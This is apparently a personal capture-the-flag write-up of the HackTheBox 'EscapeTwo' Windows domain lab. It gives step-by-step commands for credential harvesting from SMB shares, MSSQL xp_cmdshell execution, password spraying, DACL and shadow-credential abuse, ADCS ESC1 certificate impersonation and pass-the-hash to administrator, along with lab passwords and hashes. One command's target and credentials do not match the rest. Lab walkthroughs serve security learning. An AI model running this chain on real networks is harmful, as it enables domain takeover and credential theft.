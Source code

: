     echo 10.10.11.51     escii.htb | sudo tee -a /etc/hosts

We are given credentials for the following account: rose / KxEPkKe6R8su

# Enumeration

`nmap -sV escii.htb`
<img src="EscapeTwo-media/751b525b12a1dc9133966caeb8a4ac1b29b285d8.png"
class="wikilink" alt="Pastedimage20250201191351.png" />
Windows box with 445 (smb) open

Looking at UDP as well
`nmap -sU escii.htb`

<img src="EscapeTwo-media/d5431dcad35cb8554ca9d5a0634bf628f5c2ff32.png"
class="wikilink" alt="Pastedimage20250201191302.png" />
Tried various credentials and enumeration from: https://0xdf.gitlab.io/cheatsheets/smb-enum no success

<figure>
<img src="EscapeTwo-media/f20ea6fa5b0ceca81ccf876a4c5d97465519ac5a.png"
class="wikilink" alt="Pastedimage20250201193155.png" />
<figcaption
aria-hidden="true">Pastedimage20250201193155.png</figcaption>
</figure>

<img src="EscapeTwo-media/5db4516ec7e29d0832aaae19492e2a9243271e9f.png"
class="wikilink" alt="Pastedimage20250201193923.png" />
\## Initial Foothold
rose has read access to the Users folder and 'Accounting Department'
`smbclient //escii.htb/'Accounting Department' -U 'rose' 'KxEPkKe6R8su'`
reveals 2 excel sheets
<img src="EscapeTwo-media/7ef41d8a73aaadb1327af69b2a8e7fc68681f953.png"
class="wikilink" alt="Pastedimage20250207081802.png" />
They seem to be corrupted opening them using pandas.read_excel() fails, so raw dogging unzipped and found some credentials in accounts.xlsx/xl/sharedStrings.xml

angela@sequel.htb, angela, 0fwz7Q4mSpurIt99
oscar@sequel.htb, oscar, 86LxLBMgEWaKUnBG
kevin@sequel.htb, kevin, Md9Wlq1E5bZnVDVo
sa@sequel.htb, sa, MSSQLP@ssw0rd!

Throwing that through netexec
`nxc smb escii.htb -u users.txt -p passwords.txt --no-bruteforce --continue-on-success`

Only 'oscar' seems to have access:
<img src="EscapeTwo-media/08d2bce9c6824af0cdaece484a8d586bbe06645c.png"
class="wikilink" alt="Pastedimage20250207111320.png" />
and the credentials gives same access as rosie

<figure>
<img src="EscapeTwo-media/adc251fc3886bc9dc01a9e08dac34b931c064df7.png"
class="wikilink" alt="Pastedimage20250207111605.png" />
<figcaption
aria-hidden="true">Pastedimage20250207111605.png</figcaption>
</figure>

The sql credentials look promising though...
`nxc mssql escii.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth`

hOOYAH
<img src="EscapeTwo-media/b13750b843bda0282c195ea0ab508dee2e59ef1e.png"
class="wikilink" alt="Pastedimage20250207112327.png" />
`"SELECT * FROM INFORMATION_SCHEMA.TABLES"`
<img src="EscapeTwo-media/2b68f484beed8a5197713a9fc133b1f3be43c94c.png"
class="wikilink" alt="Pastedimage20250207114044.png" />

`nxc mssql 10.10.10.52 -u admin -p 'm$$ql_S@_P@ssW0rd!' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'`

<figure>
<img src="EscapeTwo-media/525f32ba6438cd992d1f82acec2178b9e4a0433b.png"
class="wikilink" alt="Pastedimage20250208160322.png" />
<figcaption
aria-hidden="true">Pastedimage20250208160322.png</figcaption>
</figure>

#### Overview of mssql backend commands

xp_cmdshell need to be turned on

https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/

``` sql
-- this turns on advanced options and is needed to configure xp_cmdshell
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
-- this enables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```

https://learn.microsoft.com/en-us/sql/relational-databases/system-catalog-views/security-catalog-views-transact-sql?view=sql-server-ver15

https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/
\## Moving on..
Poking around using the xp_shell execution -x "command here"
`nxc mssql escii.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "dir C:\SQL2019"`
<img src="EscapeTwo-media/287cb44b4314517183fccfba859ed0518f6f1d14.png"
class="wikilink" alt="Pastedimage20250209095720.png" />

<img src="EscapeTwo-media/2a39fa39b8673e22fe4955e14eda4e1be3877b8c.png"
class="wikilink" alt="Pastedimage20250209100459.png" />
`nxc mssql escii.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "type C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI"`

Reveals another password - throwing that into the list of passwords ad try to brute force this via SMB
<img src="EscapeTwo-media/b73ec8ba1899fc7f0477ff39fda72609ca4e9f41.png"
class="wikilink" alt="Pastedimage20250209093634.png" />

Brute forcing:
`nxc smb escii.htb -u users_expanded.txt -p passwords.txt --continue-on-success`
<img src="EscapeTwo-media/ca5d00ee94601575cff6a552692d0014329dcef7.png"
class="wikilink" alt="Pastedimage20250209094109.png" />
ryan is sql_svc
with pw: WqSZAF6CysDQbGb3

Poking around:
<img src="EscapeTwo-media/5a800dc145ba1b7df59599bb76f63cdfe7cc0913.png"
class="wikilink" alt="Pastedimage20250209101057.png" />
No access to content of administrator, Public or sql_svc
But the User flag is on ryan's desktop

<figure>
<img src="EscapeTwo-media/fffcfd2a05ac6a820daa0df1e02a61823a24bfc1.png"
class="wikilink" alt="Pastedimage20250209095128.png" />
<figcaption
aria-hidden="true">Pastedimage20250209095128.png</figcaption>
</figure>

## Privilege escalation

With foothold established, enumerate host with bloodhound
Install:
https://www.kali.org/tools/bloodhound/

It has a python tool to harvest the data via the compromised 'ryan' user
from netexec : sequel.htb and ryans credentials

cd to the folder you want the bloodhound dump and unleash:

`bloodhound-python -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 -ns 10.10.11.51`

Drag'n'drop the files into bloodhound or use the 'upload data' button

Usage:
each node has 3 panes: Database Info Node Info and Analysis
The Analysis tab has some fancy analyses to carry out
The node info tab has In and Outbound rights way at the bottom

We have ryans credentials so go from there:
<img src="EscapeTwo-media/927e30a7769f93ef45fb36f9eaeafec15b160f88.png"
class="wikilink" alt="Pastedimage20250317162154.png" />

### Possible Exploit

Ryan has WriteOwner privilege on CA_SVC assuming it is a certificate authority
There is even a feature that shows what it does (? help)
<img src="EscapeTwo-media/3b5892ae1d2c4ab744d49d71a9e3df1957297f2e.png"
class="wikilink" alt="Pastedimage20250317162644.png" />

Including abuse guides
\## Suggesting Shadow Credential Attack
https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab

### prepare target host

Add ryan as owner on ca_svc:

`impacket-owneredit -action write -new-owner 'ryan' -target 'ca_svc' -dc-ip 10.10.11.51 sequel.htb/ryan:WqSZAF6CysDQbGb3`

<figure>
<img src="EscapeTwo-media/14847c3c631d482e4d50b00b46242cc4fa2aaadd.png"
class="wikilink" alt="Pastedimage20250317214520.png" />
<figcaption
aria-hidden="true">Pastedimage20250317214520.png</figcaption>
</figure>

<figure>
<img src="EscapeTwo-media/a82eb9bb28048d0d41279127d426da0b478f2775.png"
class="wikilink" alt="Pastedimage20250317214606.png" />
<figcaption
aria-hidden="true">Pastedimage20250317214606.png</figcaption>
</figure>

Modify ryans privileges on ca_svc:

\`impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' -dc-ip 10.10.11.51 sequel.htb/ryan:WqSZAF6CysDQbGb3

<img src="EscapeTwo-media/eed9f8deda05f2c349e3f997838dd9cf7533cde3.png"
class="wikilink" alt="Pastedimage20250317214655.png" />
<img src="EscapeTwo-media/883e002535a4b14b2d9f24baef25f7257a6ee734.png"
class="wikilink" alt="Pastedimage20250317214738.png" />

### Certificate exploits

Yet another tool:
Pywhisker for certificate pre-authorization
(pipx install pywhisker)

pywhisker --dc-ip 10.10.11.51 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 --target "CA_SVC" --action "add" --filename CACert --export PEM
<img src="EscapeTwo-media/ca30c8a67808b7e17149b89fbae55e2cf73bc3ec.png"
class="wikilink" alt="Pastedimage20250317214853.png" />

Dumps the certificate in the folder from where the script is run

Yet Yet another tool is needed to read the certificate- from PKINITtools (https://github.com/dirkjanm/PKINITtools)
(in a venv! git clone and install)

`python3 PKINITtools/gettgtpkinit.py -cert-pem CACert_cert.pem -key-pem CACert_priv.pem -dc-ip 10.10.11.51 sequel.htb/ca_svc ca_svc.ccache`
<img src="EscapeTwo-media/19bb7454273ea4d74a7e4c5bfb445a58c33da8bf.png"
class="wikilink" alt="Pastedimage20250317215147.png" />

Export the cache
`export KRB5CCNAME=ca_svc.ccache`
<img src="EscapeTwo-media/00e6dcb49353cff32dc5d053c6b53db38ba47037.png"
class="wikilink" alt="Pastedimage20250317215307.png" />

Get the nt hash
`python3 PKINITtools/getnthash.py -key 2f5372d436b2d6001d21e36dd5aedc32e4a7e33e59ee47ad1aa98db4cc16d10d sequel.htb/CA_SVC -dc-ip 10.10.11.51`
<img src="EscapeTwo-media/dc17599e4f30650f619aa0a688c8e08fbff1e03d.png"
class="wikilink" alt="Pastedimage20250317215459.png" />

Check the user hash for CA_SVC using netexec
<img src="EscapeTwo-media/9eb4fc93ab7821cc3fbcd385b5438d17ad54ac5b.png"
class="wikilink" alt="Pastedimage20250317220448.png" />

gives us the nt hash:
3b181b914e7a9d5508ea1e20bc2b7fce

## Privilege Escalation

Search for vulnerabilities from CA_SVC:

`certipy-ad find -vulnerable -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51`
Spits out a json, txt and zipfile (for bloodhound)
Found info on much the same as netexec, but in addition hereto: also contains certificate issuers names "DunderMifflinAuthentication" needed further:
<img src="EscapeTwo-media/db510d9258cad86f7a540a1865613c7e9dd012d0.png"
class="wikilink" alt="Pastedimage20250317225209.png" />

Medum article on AD attacks
https://medium.com/@offsecdeer/adcs-exploitation-part-1-common-attacks-b7ae62519828

And explains how ESC4 can be exploited (turning it to ESC1)
\#### ESC1 (SubjectAltName Impersonation)

`SubjectAltName` (SAN) is an optional certificate extension that can be populated with a subject different than the enrollee, the CA will then issue the certificate to this account: if user Mark sends a CSR with `SubjectAltName` set to Luigi's UPN, the resulting certificate will be issued to Luigi instead of Mark.

Save old (reset something..)
`certipy-ad template -username 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51`

<figure>
<img src="EscapeTwo-media/81246e68c8c19347aad5ad18c672b1ed878931b3.png"
class="wikilink" alt="Pastedimage20250317230253.png" />
<figcaption
aria-hidden="true">Pastedimage20250317230253.png</figcaption>
</figure>

Exploit using ESC1 from the article
`certipy-ad req -username 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb -dc-ip 10.10.11.51`
<img src="EscapeTwo-media/8e4829cc976a5f619d2621305aaa9ca76de32cb6.png"
class="wikilink" alt="Pastedimage20250317231412.png" />

Autenticate
`certipy-ad auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.10.11.51`
<img src="EscapeTwo-media/cec0059a2679aaf5eacce561f98f12a172c9ec28.png"
class="wikilink" alt="Pastedimage20250317231542.png" />
giving the administrator hash

Exploit via ps exec
`impacket-psexec sequel.htb/administrator@10.10.11.51 -hashes aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3f`
<img src="EscapeTwo-media/f5161f291464c9b1d439f9c036ef56bfb1c467d9.png"
class="wikilink" alt="Pastedimage20250317232008.png" />

root flag on the desktop
<img src="EscapeTwo-media/77e058e77c7cdff1f9687361ffe73506c224d015.png"
class="wikilink" alt="Pastedimage20250317232224.png" />
